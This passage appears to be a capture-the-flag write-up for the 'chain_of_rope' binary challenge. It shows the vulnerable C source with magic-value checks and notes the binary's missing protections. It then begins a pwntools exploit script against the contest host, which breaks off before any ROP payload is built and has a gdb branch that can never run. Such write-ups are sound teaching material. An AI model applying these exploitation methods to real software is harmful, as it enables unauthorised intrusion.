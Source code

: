 The function that we want to execute can be the following:
```
int authorize () {
	userToken = 0x1337;
	return 0;
}

int addBalance (int pin) {
	if (userToken == 0x1337 && pin == 0xdeadbeef) {
		balance = 0x4242;
	} else {
		printf("ACCESS DENIED\n");
	}
	return 0;
}

int flag (int pin, int secret) {
	if (userToken == 0x1337 && balance == 0x4242 && pin == 0xba5eba11 && secret == 0xbedabb1e) {
		printf("Authenticated to purchase rope chain, sending free flag along with purchase...\n");
		system("/bin/cat flag.txt");
	} else {
		printf("ACCESS DENIED\n");
	}
	return 0;
}
```

Then we inspect the binary and we find that there's no canary, either PIE, but the stack is NX.

### Solution 
```
from pwn import *
import time

debug = int(sys.argv[1])
online=False
if( debug == 0):
  r = remote("shell.actf.co", 19400)
  #libcz = ELF("./libc-2.26.so")
  online=True
elif(debug == 1):
  libcz = ELF("/lib/x86_64-linux-gnu/libc.so.6")
  mainz = ELF("./chain_of_rope")
  r = mainz.process()
  if(debug == 2):
    gdb.attach(r, """source ./script.py""") #some breakpoint etc..?
  
def halt():
  while True:
    log.info( r.recvline() )

def interactive():
  if not online:
    print( """/usr/bin/gdb -q  {0} {1}""".format( r.argv[0], r.pid ) )
  r.interactive()

def printf(strz):
  r.recvuntil(strz)

def scanf( _):
  r.sendline("1")

def getchar():
  return
```